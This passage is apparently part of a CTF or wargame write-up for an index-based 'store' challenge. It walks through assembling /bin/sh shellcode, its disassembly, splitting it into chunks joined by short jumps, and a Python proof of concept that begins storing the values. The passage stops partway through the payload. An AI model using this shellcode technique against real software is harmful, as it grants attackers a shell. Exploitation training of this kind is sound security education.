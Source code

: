 ```shell
$ nano shellcode.asm
$ nasm -f elf32 shellcode.asm
```

Then, we can check the code and generate the shellcode.

```shell
$ objdump -M intel -d shellcode.o

shellcode.o:     file format elf32-i386

Disassembly of section .text:

00000000 <_start>:
   0:   31 c0                   xor    eax,eax
   2:   50                      push   eax
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx,esp
   f:   89 c1                   mov    ecx,eax
  11:   89 c2                   mov    edx,eax
  13:   b0 0b                   mov    al,0xb
  15:   cd 80                   int    0x80
```

Now, we need to split the shellcode into chunks of 6 bytes, pad it with NOPs (`0x90`) and add the short jump of 4 bytes (`\xeb\x04`).

```text
31 c0 50 90 90 90 eb 04          
68 2f 2f 73 68 90 eb 04
68 2f 62 69 6e 90 eb 04
89 e3 89 c1 89 c2 eb 04        
b0 0b cd 80 
```

Finally, we can convert the values to 4-byte unsigned integers (little endian).

```nasm
0x9050c031
0x04eb9090
0x732f2f68
0x04eb9068
0x69622f68
0x04eb906e
0xc189e389
0x04ebc289
0x08cd0bb0
```

Then, we can create our proof of concept. Note that the shellcode will start at the address `0xbffff50c` and not `0xbffff508` as we cannot write at the index **0**.

```python
def store(val, idx):
    data = "store\n"
    data += str(int(val)) + "\n"
    data += str(idx) + "\n"

    return data

payload = store(0x90909090, 1)
payload += store(0x04eb9090, 2)
payload += store(0x90909090, 4)
payload += store(0x04eb9090, 5)
payload += store(0x90909090, 7)
payload += store(0x04eb9090, 8)
payload += store(0x90909090, 10)
```